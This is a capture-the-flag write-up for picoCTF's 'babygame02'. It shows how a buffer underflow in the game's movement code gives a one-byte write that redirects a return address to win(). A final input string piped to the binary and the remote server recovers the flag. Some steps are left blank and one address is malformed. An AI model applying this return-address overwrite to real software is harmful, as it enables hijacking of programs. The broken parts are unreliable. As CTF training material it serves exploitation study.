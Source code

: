 # babygame02 #
 
## Overview ##
 
200 points
 
Category: [Binary Exploitation](../)
 
Tags : `#writewhatwhere #bufferunderflow #returnaddress #outofbounds #integermath`
 
## Description ##
 
Break the game and get the flag.
Welcome to BabyGame 02! Navigate around the map and see what you can find! The game is available to download here. There is no source available, so you'll have to figure your way around the map. You can connect with it using `nc saturn.picoctf.net <port>`.
 
## Approach ##

Began by disassembling the `game` binary within [Ghidra](https://ghidra-sre.org) and analysing the output.

Also checked the binary security with [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) `checksec` :

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

This challenge is a variant of the [babygame01](../babygame01/babygame01.md) challenge, the flag win condition differs in that the `win()` function is not explicitly called in `babygame02`, hence a modification of the return address or similar means of execution is required.

The binary security indicates no stack canaries are in use, so we won't need to be careful of those.

Visualising the stack frame of `main()` from the disassembly to show placement and relative offsets of local variables and other elemts on the stack. I've augmented the variables with their purpose obtained from analysis of functions (`main()`, `init_player()` and `move_player()`) :

    (stack top - lower address)
      |                  |
      | player_y_pos     | -0xaa8
      | player_x_pos     | -0xaa4
      | map_buf          | -0xa9d
      | local_11         | -0x11
      | local_10         | -0x10              sub 0xaa0
      |------------------|
      | Saved $ECX       |
      | Saved $EBX       |
      | Previous $EBP    | <--- $EBP
      |------------------|
      | Return Address   |
      |                  |
 
`move_player(player_y_pos, input_ch, map_buf)` contains the same exploitable line of code that forming a write-what-where primative. We control the player X and Y position and hence the address to write to, aswell as the byte to write through the ability to change the `player_title`. As this is similar to [babygame01](../babygame01/babygame01.md), refer to my write up for further details.

    *map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title

This time we must overwrite a return address on the stack with the addres of the `win()` function to dumps the flag instead of overwriting a local variable of `main()`.

The behaviour of `move_player()` is slightly different in babygame02, in that before moving the player it writes to the previous player position (before move), clearing it with '.' (0x2e) character before updating and writing the new player position. This means cycling this exploit to write multiple bytes is not possible as it corrupts the previous byte written with the clear. Therefore we need to find a location where only one write operation is required to divert the flow of execution to the `win()` function address.

Function addresses from disassembly :

    `win()` address   = 0x08049770
    `main()` address  = 0x0804971d

The address for `win()` is after the stack management code at which what looks like a "NOP slide" can be seen, so anywhere in that series of `NOP`s was a good enough target.

The address for `main()` above is the instruction immeditely afder the `CALL move_player()` (i.e. the return address from `move_player()`).





How about the return address from `move_player()`, this is only one byte difference between the return address to main after the call to `move_player()` and the `win()` function.

..... addresses


`move_player()` stack frame :

    |                        |
    | old EBP                | <--- $ebp
    |------------------------|
    | return address         |
    |------------------------|
    | param1 - &player_y_pos |
    | param2 - input ch      |
    | param3 - map_buf       |
    |------------------------|
    |                        |

Stack offset from `map_buf` through to return address of `move_player()` stack frame were calculated via gdb.

    0xffffca7c  = Return Address
    0xffffca80  = add esp,10
    0xffffca90  = esp @ main()
    0xffffd538  = ebp
    0fffffcaa3  = ebp - 0xa95 (map_buf)
    --------------------------------------
    0xca - 0x7c = 39

Back calculating the required `player_x_pos` when `player_y_pos` causes a buffer underflow at `-1`.

    *map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title

Where,

    (0xffffca7c - 0xffffcaa3) - (-1 * 0x5a) = 51 

 
## Solution ##
 
Plan of attack :

1. set the player_title character to the last byte of `win()` return address, using the `l` command
2. 



  - 
  - move player into position on the x-axis from starting position of 4
  - move player into position in the y-axis from starting positio of 4, underflowing to y_pos = -1

Final exploit :

    echo -e $(python3 -c 'print("lp" + "d"*(51-4) + "w"*5)') | ./game
    
    echo -e $(python3 -c 'print("lp" + "d"*(51-4) + "w"*5)') | nc saturn.picoctf.net 52597
    => picoCTF{gamer_jump1ng_4r0unD_498dff8d}

Had to run a few times on the remote server to work, likely due to the process exiting before fully flushing stdout via nc?
